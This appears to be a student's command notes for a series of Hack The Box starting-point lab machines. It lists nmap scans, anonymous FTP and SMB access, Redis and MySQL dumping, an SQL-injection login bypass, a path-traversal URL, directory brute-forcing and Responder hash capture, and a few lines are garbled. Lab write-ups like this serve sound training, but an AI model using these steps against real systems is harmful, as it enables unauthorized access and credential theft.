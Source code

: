## Meow challenge:
- sudo openvpn {filename.opvn}
- ping {target_ip}
- sudo nmap -sV 10.129.239.25
- telnet {target_ip}


## Fawn challenge
- sudo nmap {target_ip}
- sudo nmap -sV {target_ip}
- sudo apt install ftp -y
- ftp -h
- ftp {target_ip}
  `username: anonymous
  `password:
- ftp> help
- ftp> ls
- ftp> get flag.txt
- ftp> bye
- cat flag.txt


## Dancing challenge:
- sudo nmap -sV {target_ip}
- sudo apt-get install smbclient
- smbclient -L 10.129.239.172
- smbclient \\\\10.129.239.172\\ADMIN$
- smbclient \\\\10.129.239.172\\C$
- smbclient \\\\10.129.239.172\\WorkShares
- smb: \> help
- smb: \> ls
- smb: \> cd Amy.J
- smb: \Amy.J\> ls
- smb: \Amy.J\> get worknotes.txt
- smb: \Amy.J\> cd ..
- smb: \> cd James.P
- smb: \James.P\> ls
- smb: \James.P\> get flag.txt
- cat flag.txt


## Redeemer challenge:
- sudo opstarting_point_ahmed00078.ovpn8.ovpn
- nmap -p- -sV 10.129.28.47
- sudo apt install redis-tools
- redis-cli --help
- redis-cli -h 10.129.28.47
- 10.129.28.47:6379> info
- 10.129.28.47:6379> select 0
- 10.129.28.47:6379> keys *
- 10.129.28.47:6379> get stor
- 10.129.28.47:6379> get temp
- 10.129.28.47:6379> get numb
- 10.129.28.47:6379> get flag


## Apointment challenge:
- sudo opstarting_point_ahmed00078.ovpn8.ovpn
- sudo nmap -sC -sV 10.129.164.88
- http://10.129.164.88/
- Username: admin'#
- Password: abc123


## Sequel challenge:
- sudo nmap -sC -sV 10.129.95.232
- sudo apt update && sudo apt install mysql *
- mysql --help
- mysql -h 10.129.95.232 -u root
- SHOW databases;
- USE htb;
- SHOW tables;
- SELECT * FROM config;


## Crocodile challenge:
- nmap -sC -sV 10.129.146.153
- ftp-anon: Anonymous FTP login allowed (FTP code 230)
- ftp 10.129.146.153
- Name (10.129.146.153:ahmed20078): anonymous
- ftp> help
- ftp> dir
- ftp> get allowed.userlist
- ftp> get allowed.userlist.passwd
- ftp> exit
- cat allowed.userlist
- cat allowed.userlist.passwd
- gobuster dir --url http://10.129.146.153/ --wordlist /media/ahmed20078/ahmed78/Documents/Cyber Projects/go/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html
- http://10.129.146.153/login.php
- admin:svndkfngksjvrdkufhkr


## Respondes challenge:
- nmap -p- --min-rate 1000 -sV 10.129.95.234
- echo "10.129.95.234 unika.htb" | sudo tee -a /etc/hosts
- http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
- git clone https://github.com/lgandx/Responder
- sudo python2 Responder.py -I tun0
- 
